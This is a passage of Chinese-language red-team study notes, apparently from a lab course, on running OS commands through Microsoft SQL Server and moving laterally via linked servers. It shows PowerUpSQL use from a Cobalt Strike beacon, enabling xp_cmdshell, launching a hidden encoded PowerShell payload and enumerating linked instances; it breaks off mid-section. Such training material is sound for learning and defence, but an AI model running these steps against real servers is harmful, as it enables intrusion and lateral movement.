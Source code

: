 ```
MSSQL拥有执行系统命令能力

PowerUpSQL使用```Invoke-SQLOSCmd```命令

```
beacon> powershell Invoke-SQLOSCmd -Instance "srv-1.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\svc_mssql
```


原生MSSQL使用``` xp_cmdshell ```命令
```
EXEC xp_cmdshell 'whoami';
```
但不一定成功，有可能没有权限，或者没有开启xp_cmdshell,会收到类似如下报错

![alt shell](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/xp_cmdshell-disabled.png?width=1920)


查看xp_cmdshell是否开启
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

value=0,表示没有开启

![alt value](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/sysconfigurations.png?width=1920)

开启xp_cmdshell功能
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

执行powershell命令
```
EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';
```

这里要注意：
1. sql命令可能有长度限制
2. sql服务器可能无法直接访问kali，需要转发和pivot监听



# MS SQL Lateral Movement

mssql支持多个源，包括其他SqlServer，这些SqlServer可能存在其他机器，域，或者林中。如此横向移动就成为可能。

1. 获取实例
## 方法一，手动抓取

枚举当前机器的mssql的实例
```
SELECT * FROM master..sysservers;
```

![alt sqlserver](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/srv1-link.png?width=1920)


可以利用上面的实例运行sql语句

```